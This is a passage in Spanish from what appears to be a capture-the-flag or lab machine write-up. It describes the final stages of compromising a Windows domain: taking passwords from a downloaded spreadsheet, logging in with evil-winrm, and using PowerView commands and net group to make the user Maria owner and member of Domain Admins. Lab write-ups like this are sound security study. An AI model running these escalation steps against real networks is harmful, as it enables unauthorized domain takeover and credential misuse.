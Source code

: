 Lo descargamos a la máquina atacante:

```powershell
download C:\ProgramData\bh\Engines.xls Engines.xls
```

Lo abrimos con LibreOffice. En el archivo se ven 3 contraseñas, intentamos iniciar sesión con evil-winrm.

## Escalada final (Domain Admin)

Vamos al directorio que creamos una vez más y esta vez debemos ganar control en el domain admin, que ya es posible con el usuario María. Así que importamos el módulo de PowerView, modificamos nuevamente el seteado. Recordar que todo esto aparece en BloodHound:

```powershell
Set-DomainObjectOwner -Identity "Domain Admins" -OwnerIdentity Maria
```

Este comando nos agrega al domain admin, luego nos damos todos los privilegios con:

```powershell
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -Rights All -PrincipalIdentity Maria
```

Hacemos `net user Maria` y no nos muestra como miembros de domain admin, así que lo agregamos con:

```cmd
net group "Domain Admins" Maria /add /domain
```

Entramos y salimos para actualizar credenciales y terminamos buscando la flag de root.

---

**Nota:** Algunos de los writeups en esta página pueden tener contenido de otras páginas o tener muy pocas imágenes, esto debido a que en algunas de las máquinas que realicé, no tomé los apuntes o no tomé capturas de pantalla, así que he decidido buscar varios writeups y agregar lo que esté mejor explicado en cada uno para plasmarlo aquí. También si encuentras faltas de ortografía o cualquier error, puedes contactarme a mi correo.